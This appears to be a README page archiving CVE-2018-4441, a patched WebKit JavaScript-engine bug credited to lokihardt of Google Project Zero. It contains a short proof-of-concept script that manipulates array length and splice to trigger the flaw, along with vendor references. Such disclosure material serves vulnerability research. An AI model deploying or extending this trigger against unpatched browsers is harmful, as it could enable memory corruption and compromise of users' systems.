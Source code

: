 # CVE-2018-4441

- Report: Oct 2018
- Fix: Dec 2018
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function main() {
    let arr = [1];

    arr.length = 0x100000;
    arr.splice(0, 0x11);

    arr.length = 0xfffffff0;
    arr.splice(0xfffffff0, 0, 1);
}

main();
```

## Reference

- [Apple](https://support.apple.com/en-us/HT209340)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=190262)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1685)

